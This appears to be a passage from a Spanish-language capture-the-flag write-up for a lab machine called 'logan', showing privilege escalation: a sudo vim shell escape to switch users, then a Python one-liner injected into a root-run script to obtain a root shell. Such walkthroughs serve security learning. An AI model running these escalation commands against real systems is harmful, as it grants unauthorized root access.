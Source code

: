 Parece que podemos abusar de ese binario para pivotar a *logan*, vamos a ello con nuestro querido amigo <https://gtfobins.github.io/gtfobins/vim/#sudo>:

~~~bash
www-data@logan:/home/logan$ sudo -u logan vim -c ':!/bin/bash'

logan@logan:~$ id
uid=1000(logan) gid=1000(logan) groups=1000(logan),27(sudo),1002(administration)
~~~

Realizamos nuevamente la misma acción para ver qué podemos ejecutar:

~~~bash
logan@logan:~$ sudo -l
Matching Defaults entries for logan on logan:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User logan may run the following commands on logan:
    (root) NOPASSWD: /usr/bin/python3 /opt/learn_some_python.py
~~~

Y vemos que podemos ejecutar como root un script en Python, vamos a ello:

~~~bash
logan@logan:~$ sudo /usr/bin/python3 /opt/learn_some_python.py
Welcome!!!

 The first you need to now is how to use print, please type print('hello')

import os; os.system("/bin/bash")
root@logan:/home/logan# cd /root
root@logan:~# ls
root.txt  snap
root@logan:~# cat root.txt
~~~

Máquina finalizada, agradecer a d3b0o por la misma.